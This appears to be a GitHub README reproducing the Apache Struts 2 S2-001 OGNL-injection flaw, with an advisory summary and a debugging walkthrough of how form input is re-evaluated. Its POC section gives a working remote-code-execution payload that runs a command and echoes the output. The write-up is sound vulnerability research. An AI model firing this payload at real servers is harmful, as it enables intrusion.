





# S2-001 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote code execution                                        |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to [Struts 2.0.9](http://people.apache.org/builds/struts/2.0.9/) or upgrade to [XWork 2.0.4](http://www.opensymphony.com/xwork/download.action) |
| Affected Software       | WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8 |
| Non-Affected Software   | WebWork 2.0, WebWork 2.1 (with altSyntax disabled, which is the default) |
| Original JIRA Ticket    | [WW-2030](http://issues.apache.org/struts/browse/WW-2030)    |

## Problem

在默认配置下，如果用户所提交的表单出现`验证错误`，后端会对用户的输入进行`解析处理`，然后返回并`显示处理结果`。 举个例子，当你提交的登录表单为`username=xishir&password=%{1+1}`时，后端验证登录失败后会返回登录界面并显示你的输入，这时password字段中的OGNL表达式已经被解析处理过了，所以会显示`%{1+1}`的解析结果`2`，从而可以构造payload进行RCE。（参考：[Struts2Vuls之S2-001漏洞复现与简要分析](https://www.codemonster.cn/2018/03/28/2018-struts2-001/)）

## Environment

| Struts2 Version | struts-2.0.1-all       |
| :-------------- | ---------------------- |
| Server          | Tomcat 8.5.53          |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC


payload:

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

## Debug

调试建议看chybeta师傅的文章：[【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)

这里分析下漏洞成因。引用原文一句话：

> 表单验证错误并不是该漏洞的产生的原因，但表单验证错误是这个漏洞出现的场景之一。在struts2框架中，配置了Validation，倘若验证出错会往往会原样返回用户输入的值而且不会跳转到新的页面，而在最后解析页面时区解析了用户输入的值，从而执行payload。在实际场景中，比如登陆等处，往往会配置了Validation，比如限制用户名长度，数字的范围等等，从而成为了该漏洞的高发区。

Demo源码中没有使用到validation机制。个人猜测漏洞可能跟`return "error"`有关，下面在demo基础上做几个测试:)

### 1. 返回input/error/success

```java
    @Override
    public String execute() throws Exception {
        if ((this.username.isEmpty()) || (this.password.isEmpty())) {
            return "error";
        }
        if ((this.username.equals("admin"))
                && (this.password.equals("admin"))) {
            return "success";
        }
        return "error";
    }
```

构造输入，触发这三种返回。经测试，在`return "input"`和`return "error"`时payload可以执行。

### 2. success

```java
@Override
public String execute() throws Exception {
    if ((this.username.isEmpty()) || (this.password.isEmpty())) {
        return "success";
    }
    if ((this.username.equals("admin"))
            && (this.password.equals("admin"))) {
        return "success";
    }
    return "success";
}
```
payloadd都不能执行。分析了下原因，由于success跳转到的是welcome.jsp页面，该页面没有登录表单，触发不了doEndTag()方法，所以不能将用户的输入填充进来。

### 3. success + 成功页面添加标签

在2的基础上，在welcome.jsp页面添加了`<s:textfield name="username" label="username">`标签。

```jsp
<h1>Login success.</h1>
<s:textfield name="username" label="username" />
```

在首页username框填入payload，submit后跳转至welcome.jsp，发现payload可以执行。

所以我总结触发漏洞的原因是，只要用户输入的数据能够再次填充在新的页面，payload就会被执行，与return的内容无关。

那么这可能需要跳转后页面有与跳转前页面有相同的标签存在，且该标签输入内容是可控的。

上面仅是个人见解。

下面记录下个人调试笔记。

在doEndTag()处下断点：

`struts2-core-2.0.1.jar!/org/apache/struts2/views/jsp/ComponentTagSupport.class:22`


doEndTag()是在遇到标签结束时呼叫的方法。跟入component.end()->evaluateParams():

```java
public void evaluateParams() {
    ...
    if (this.parameters.containsKey("value")) {
            this.parameters.put("nameValue", this.parameters.get("value"));
        } else if (this.evaluateNameValue()) {
            Class valueClazz = this.getValueClassType();
            if (valueClazz != null) {
                if (this.value != null) {
                    this.addParameter("nameValue", this.findValue(this.value, valueClazz));
                } else if (name != null) {
                    String expr = name;
                    if (this.altSyntax()) {
                        expr = "%{" + name + "}";
                    }

                    this.addParameter("nameValue", this.findValue(expr, valueClazz));
                }
            } else if (this.value != null) {
                ...
        }
}
```

发现判断了一个altSyntax语法开关，如果开启则给参数加上%{}



跟进findValue函数，可以看到有两重循环，作用是将%{}之间的表达式取出来执行。第一次先取出username:



通过OgnlUtil.getValue取出username对应的值%{1+1}




开始第二次循环



取出了1+1，并计算了结果。



## Reference

- [S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)
- [【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)
- https://www.codemonster.cn/2018/03/28/2018-struts2-001/
- https://www.cnblogs.com/magic-zero/p/8214034.html
